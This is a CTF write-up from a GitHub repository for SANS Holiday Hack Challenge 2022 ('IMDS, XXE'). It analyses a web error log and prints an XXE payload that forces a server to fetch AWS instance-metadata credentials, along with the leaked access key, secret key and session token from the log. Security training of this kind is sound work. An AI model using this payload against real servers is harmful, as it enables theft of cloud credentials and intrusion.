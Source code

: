 # SANS Holiday Hack Challenge 2022 - KringleCon V: Golden Rings
## Recover the Web Ring
### IMDS, XXE, and Other Abbreviations
Difficulty: :christmas_tree::christmas_tree:
The last step in this attack was to use [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

#### Hints
##### Instance Metadata Service
*From: Alabaster Snowball*  
AWS uses a specific IP address to access [IMDS](https://www.sans.org/blog/cloud-instance-metadata-services-imds-/), and that IP only appears twice in this PCAP.

#### Solution
nowing the attacker extracted the secret keys from the IMDS service, it is possible to filter on the string access within the `weberror.log` file and add some context to identify the complete request:
```bash
thedead@dellian:~$ grep -m 1 -A 24 -B 13 -i "access" weberror.log
18.191.6.79 - - [05/Oct/2022 16:48:57] "GET / HTTP/1.1" 200 -
ic| xml: (b'<?xml version="1.0" encoding="UTF-8"?>
         <!DOCTYPE foo [ <!ENTITY id SYSTE'
          b'M "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security'
          b'-credentials/ec2-instance"> ]>
         <product><productId>&id;</productId></pro'
          b'duct>
         ')
    parsed_xml: (b'<product><productId>{
                  "Code" : "Success",
                  "LastUpdated" : "2022-10-0'
                 b'5T16:43:21Z",
                  "Type" : "AWS-HMAC",
                  "AccessKeyId" : "ASIAV4AVRXQVJ267'
                 b'LD2Q",
                  "SecretAccessKey" : "OpGR4v70ygZ3RFf4WTzjNL45pQayRwZgBUgd0LJT",'
                 b'
                  "Token" : "IQoJb3JpZ2luX2VjECEaCXVzLWVhc3QtMiJHMEUCIHDsZXiUuHIUrLNH5p'
                 b'AeMiv4aUMVIScjwbo1E9LctQ3rAiEA819eJ24mILbxM3eELK2xrgskHxsRmrza/jIj3y96/sgqsg'
                 b'QI2v//////////ARADGgw0MDM3NzIxMjgyOTgiDMAdG5EGamJ4Z2FwyiqGBPy+CL9AfXIGfLBBDC'
                 b'NkCyl5WOMN7owHr84k+hz4XZYBUp7/+KFZgEiKARroMuD6ofdNRvAj7dQ1/wFxeR6wezUPUkHqtc'
                 b'303oTBY7eTk5EQXClpKsmV1l25QAfD0DOL6FPxpjLPug0AbDFlIhjUeImvk3NBWiUHtXptrJH2ks'
                 b'SaQqU2DBPkkQ4IjMBMbLj0ZdJVWaiUy9sf5ecc2d/qVQU1c6SrYLg0HpyuH9brqm0zuv8/tR17Y/'
                 b'Jo2aNeNGX1wvyb5jP1FcQteypV6IqKIUUCADJ7chYeMypMlwV77phvrZco921O6MV+JlhSIomuzF'
                 b'RLdvzD+RP8DyLZeYZ65vKzr6h0yc+XIHOCT+P01pWQgfZBtvfCJKLKqwTMEbIr/i/xgGmHoCTzx6'
                 b'm38kd4EZvGXZMp3EEasdnqTtKLOR6JFAAlW8SoxOKRL1MshK3SUmYvWnMoLKCotPwyJeAMHEHuZi'
                 b'pNMiZ2gbN//PMbUBnPjNVFBP4SfHaTv7EHzHNpTl5toy8qlPyxE0yLbh5a//DF5wJQE6UKfXWlQh'
                 b'k9/NVM7QAAzEzWPiFTp8ajRIDjPoprVlX3yUaTUHOH8PwMtURCJLl0sOQaJtRGWEMrH52ls5e83p'
                 b'm0ta8257vu8HyTR7zgc/7a0ZsoxetlsB7VYIKyXnETO7SMniTO8R/yE1Wn9qAoWp/jMPvn9pkGOo'
                 b'8CLegclGA49hB/LRr/V1bXEyIIRg5Zn93xXvccMX5QyKGVSRghNOVGn/cCglDWc9zSRFRlZ4tHbl'
                 b'Vi1v8021J04REPR69FDuVvpUzEDJfDF1u4XwYGsp7uuuIngiiegP56H5nSYjmpBfyIURwgNvsz6p'
                 b'tpUvplGCxOvBJcKeyborHJDKG40QRXsLpOgB8NTKhgaFNxO7PjA/YrT7g1rYS7xNrKzVIK4tTwxW'
                 b'B5zN5JAQ3pVRp2JB8Q1ng3qsj3UPfZ3O3JjY4U+rrBKPEHIw9B+Pz6kffOu73aPKgo333w/hd9U4'
                 b'slj74JQXPhO9jCYpAF1bLdS/If20Ed6HvGcAONep0A/FrtZ62EWX4HmeYZ4A==",
                  "Expi'
                 b'ration" : "2022-10-05T23:00:40Z"
                }</productId></product>')
    tree: <Element product at 0x7f9baeffc180>
```
It is possible to observe an XXE attack with the following XML payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY id SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance"> ]>
<product>
	<productId>&id;</productId>
</product>
```
This payload forced the server to fetch the URL `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance` which is the solution for this challenge.  
![169.254.169.254](imgs/169.254.169.254.jpg)  
[https://mobile.twitter.com/csecurity7575](https://mobile.twitter.com/csecurity7575)

---
### [Open Boria Mine Door (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.05%20-%20Open%20Boria%20Mine%20Door/README.md)
### [Glamtariel's Fountain (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.06%20-%20Glamtariel's%20Fountain/README.md)
### [The Web Ring (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.07%20-%20The%20Web%20Ring/README.md)
### [AWS CLI Intro (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.01%20-%20AWS%20CLI%20Intro/README.md)
### [Trufflehog Search (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.02%20-%20Trufflehog%20Search/README.md)
### [Exploitation via AWS CLI (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.03%20-%20Exploitation%20via%20AWS%20CLI/README.md)
### [The Cloud Ring (Recover the Cloud Ring)](/05%20-%20Recover%20the%20Cloud%20Ring/05.04%20-%20The%20Cloud%20Ring/README.md)
### [Buy a Hat (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.01%20-%20Buy%20a%20Hat/README.md)
### [Blockchain Divination (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.02%20-%20Blockchain%20Divination/README.md)
### [Exploit a Smart Contract (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.03%20-%20Exploit%20a%20Smart%20Contract/README.md)
### [Mistakes were made… the key (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.04%20-%20Mistakes%20were%20made…%20the%20key/README.md)
### [The Burning Ring of Fire (Recover the Burning Ring of Fire)](/06%20-%20Recover%20the%20Burning%20Ring%20of%20Fire/06.05%20-%20The%20Burning%20Ring%20of%20Fire/README.md)
### [Narrative](/README.md#narrative)
### [Conclusions](/README.md#conclusions)
---
### [thedead@dellian:~$ whoami](/README.md#thedeaddellian-whoami)
### [KringleCon Orientation](/01%20-%20KringleCon%20Orientation/README.md)
### [Wireshark Practice (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.01%20-%20Wireshark%20Practice/README.md)
### [Windows Event Logs (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.02%20-%20Windows%20Event%20Logs/README.md)
### [Suricata Regatta (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.03%20-%20Suricata%20Regatta/README.md)
### [The Tolkien Ring (Recover the Tolkien Ring)](/02%20-%20Recover%20the%20Tolkien%20Ring/02.04%20-%20The%20Tolkien%20Ring/README.md)
### [Clone with a Difference (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.01%20-%20Clone%20with%20a%20Difference/README.md)
### [Prison Escape (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.02%20-%20Prison%20Escape/README.md)
### [Jolly CI_CD (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.03%20-%20Jolly%20CI_CD/README.md)
### [The Elfen Ring (Recover the Elfen Ring)](/03%20-%20Recover%20the%20Elfen%20Ring/03.04%20-%20The%20Elfen%20Ring/README.md)
### [Naughty IP (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.01%20-%20Naughty%20IP/README.md)
### [Credential Mining (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.02%20-%20Credential%20Mining/README.md)
### [404 FTW (Recover the Web Ring)](/04%20-%20Recover%20the%20Web%20Ring/04.03%20-%20404%20FTW/README.md)
